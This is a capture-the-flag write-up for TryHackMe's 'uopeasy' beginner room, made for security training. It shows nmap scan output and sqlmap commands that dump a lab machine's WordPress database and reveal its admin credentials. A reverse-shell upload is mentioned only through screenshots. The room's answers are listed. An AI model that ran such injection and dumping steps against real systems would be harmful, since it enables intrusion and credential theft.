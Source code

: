 ```yaml
---
title: "uopeasy - TryHackMe"
author: Ludovic COULON
date: 2020-07-18
hero: ./images/hero.jpg
excerpt: "Writeup for the uopeasy university of Portsmouth's beginner room"
---
```


[TryHackMe | uopeasy](https://tryhackme.com/room/uopeasy)

University of Portsmouth's beginner room.

In this set of tasks you will learn the following:

- Basic SQL injection
- Use of reconnaissance tool
- nmap
- WordPress RCE and reverse shells
- Cracking the hash (John the ripper / hashcat)
- Possibly Nikto
- Burp Suite or dirbuster

The main goal here is to learn as much as possible. Make sure you are connected to our network using your [OpenVPN configuration file](https://tryhackme.com/access).

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.180.236
```

```bash
80/tcp   open  http     syn-ack Apache httpd 2.4.7 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).

443/tcp  open  ssl/http syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-02-17T03:30:05
| Not valid after:  2025-02-14T03:30:05
| MD5:   ebd4 a980 6e51 1b13 769e d4b1 28f9 71dd
| SHA-1: 6297 03e9 f83b 06e7 d50d 3f4b 5bae 38c9 7665 cc64
| -----BEGIN CERTIFICATE-----
| MIIBqzCCARQCCQDg5heFLm8t8jANBgkqhkiG9w0BAQUFADAaMRgwFgYDVQQDDA93
| d3cuZXhhbXBsZS5jb20wHhcNMTUwMjE3MDMzMDA1WhcNMjUwMjE0MDMzMDA1WjAa
| MRgwFgYDVQQDDA93d3cuZXhhbXBsZS5jb20wgZ8wDQYJKoZIhvcNAQEBBQADgY0A
| MIGJAoGBANFjfgmsBCGKWfdqCYZnY2mKvtUnYFtenVjtqdReduE12yavSQZuWAi2
| jIpCUMwG7RG3QAwyzCoMWAzF/tZimI8uNL8G9m84l/wQAbTPMPJTgJXpwY0/9IRc
| hdqtpFoVS251qA9AvPeqMv/hV+rKVAkYcONB6Q8Or8S6ifkEBAZbAgMBAAEwDQYJ
| KoZIhvcNAQEFBQADgYEAQ3Kt0nVDLMkAv9/k1bt6KaM06cvTtiekgu0ugxA0TNXC
| FNIBqu/Fasog43FRLuUtAtNCNMqI5QAAVPatQPk1QmVoE+IxbvxldrKykZk9oXkj
| 5rbE43BAkxyiMvuNsZh7W2Lzx14tlA84c8B4Y1S0CqoVLpaJaCQ5MtVMSya3wAM=
|_-----END CERTIFICATE-----

8080/tcp open  http     syn-ack Apache httpd
|_http-favicon: Unknown favicon MD5: A8B5AD142FFA4621B3DBF67BDECA483A
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

![https://imgur.com/9SK08g2.png](https://imgur.com/9SK08g2.png)

![https://imgur.com/G7Wb80W.png](https://imgur.com/G7Wb80W.png)

### #1 Deploy the machine and connect to **our network.**

```bash
No awnser needed
```

### #2 Do some basic reconnaissance on the website. What pages can you view? What ports are open? What can you access?

```bash
No awnser needed
```

### #3 You should have found some additional pages on different ports. What service does the site most likely use for this page?

```bash
mysql
```

### #4 Using the fact that this site has this service running, how can you exploit it? Do not use SQLMap yet..

```bash
Since this is some php room let's say that is SQLi (SQL Injection)
```

```bash
SQLi
```

### #5 Try and return 1 on the page by entering certain characters into the form.

```bash
No awnser needed
```

### #6 Using SQL injection, can you extract the username and password for this form? You may need the help of Burp's intruder function OR SQLMap.

```bash
No awnser needed
```

### #7 What was the username?

Dump the database using sqlmap

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php --forms -dbs
```

![https://imgur.com/9yukJFN.png](https://imgur.com/9yukJFN.png)

![https://imgur.com/lu0ABlM.png](https://imgur.com/lu0ABlM.png)

Let's see the content of the wordpress8080 table

```bash
➜  ~ sqlmap -u http://10.10.180.236/login.php –forms –dbs –dump-all -D wordpress8080
```

![https://imgur.com/ucY2JNZ.png](https://imgur.com/ucY2JNZ.png)

Credentials retrieved

```bash
Username : admin
Password : SuperSecretPassword
```

### #8 What was the password?

```bash
SuperSecretPassword
```

### #9 Now you have these credentials, where else on the site can you go? Using the credentials you have and another part of the site, login and try to execute remote commands on the server.

```bash
No awnser needed
```

### #10 Can you get a reverse shell back to your local machine?

```bash
No awnser needed
```

### #11 Can you crack anyones password? Using the very popular rockyou.txt

```bash
No awnser needed
```

### #12 What is the final cracked hash password for the user "user"?

Let's upload the reverse shell on the wordpress blog

![https://imgur.com/z6QQkJF.png](https://imgur.com/z6QQkJF.png)

![https://imgur.com/AIcHLNM.png](https://imgur.com/AIcHLNM.png)

![https://imgur.com/9B1RXrg.png](https://imgur.com/9B1RXrg.png)

Nice we have the creds for the database let's try them 😇

![https://imgur.com/csDngND.png](https://imgur.com/csDngND.png)

![https://imgur.com/DElAc2V.png](https://imgur.com/DElAc2V.png)

```bash
SuperSecretPassword
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
